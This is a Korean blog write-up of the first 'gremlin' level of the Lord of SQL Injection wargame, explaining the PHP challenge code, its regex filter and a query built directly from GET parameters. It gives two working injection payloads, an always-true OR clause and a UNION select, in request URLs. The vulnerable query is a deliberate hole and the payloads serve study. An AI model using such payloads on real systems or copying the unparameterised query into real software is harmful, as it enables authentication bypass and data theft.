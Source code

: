 ```yaml
---
title: Lord of SQL Injection Write Up No.1 Gremlin
date: 2019-08-12 11:24:33
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 1번 gremlin 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

기본적인 SQL Injection을 통해 SQL문을 조작할 수 있는지 확인한다.

### 필요 배경 지식

#### include

- php의 include에 대해 잘 모르겠다면 다음 링크를 참고하자.
- [PHP: include - Manual](http://php.net/manual/kr/function.include.php)

#### preg_match

```php
int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags [, int $offset ]]] )
```

- preg_match 함수는 문자열에서 정규표현식 매치를 수행한다.
- 반환값은 매치된 횟수이며, 0 또는 1 이다. 이는 처음 매치 후 검색을 중지하기 때문이다.
- php의 preg_match 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
  - [PHP: preg_match - Manual](http://php.net/manual/kr/function.preg-match.php)

#### 정규 표현식 (Regular Expression)

- 정규 표현식은 특정한 규칙을 가진 문자열의 집합을 표현하는 데 사용하는 형식 언어이다.
- 정규 표현식에 대해 잘 모르겠다면 다음 링크를 참고하자.
  - [정규 표현식 - 위키백과](https://ko.wikipedia.org/wiki/%EC%A0%95%EA%B7%9C_%ED%91%9C%ED%98%84%EC%8B%9D)
  - [정규 표현식 테스트 사이트 RegExr](http://regexr.com/)

### 소스 코드 분석

gremlin 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

#### Intro

```php
include "./config.php";
login_chk();
dbconnect();
```

- `config.php` 파일을 불러와 적용시킨다. `config.php` 내부에 `login_chk()`, `dbconnect()`, `solve()` 등 문제 풀이 환경과 관련된 함수가 선언되어 있을 것으로 추정할 수 있다.
- `login_chk()` 함수는 로그인 된 상태인지 확인하는 기능을 할 것으로 추정할 수 있다.
- `dbconnect()` 함수는 데이터베이스에 연결하는 기능을 할 것으로 추정할 수 있다.

#### Filter

```php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```

- GET방식으로 `id`와 `pw`를 받으며, `id`나 `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
  - `preg_match('/prob|_|\.|\(\)/i', $_GET[id])` 는 `$_GET[id]`에서 정규표현식 `'/prob|_|\.|\(\)/i'` 을 매치한다.
  - 즉, `if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");` 이 문장을 통해 `$_GET[id]`에 `prob`, `_`, `.`, `()` 중 하나라도 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

#### Query

```php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
echo "<hr>query : <strong>{$query}</strong><hr><br>";
$result = @mysql_fetch_array(mysql_query($query));
if($result['id']) solve("gremlin");
```

- 받은 `id`와 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 참이 되는 어떤 문자열이든 들어있음'이다.

## Solution

1. WHERE 조건절 무력화
   GET 방식으로 정보를 전송하기 위해 다음과 같이 URL의 맨 끝에 쿼리 스트링을 붙인다.

   ```url
   http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' or 1=1 -- -
   ```

   ```sql
   select id from prob_gremlin where id='' or 1=1 -- -' and pw=''
   ```

   이는 WHERE 조건절을 항상 참으로 만들어 `prob_gremlin` 테이블의 모든 행의 `id` 열을 불러오도록 하므로 문제가 풀린다.

2. UNION 구문 이용

   ```url
   http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' union select 'a'-- -
   ```

   ```sql
   select id from prob_gremlin where id='' union select 'a'-- -' and pw=''
   ```

   이는 결국 `$result['id']`에 `'a'`가 들어가도록 하므로 문제가 풀린다.

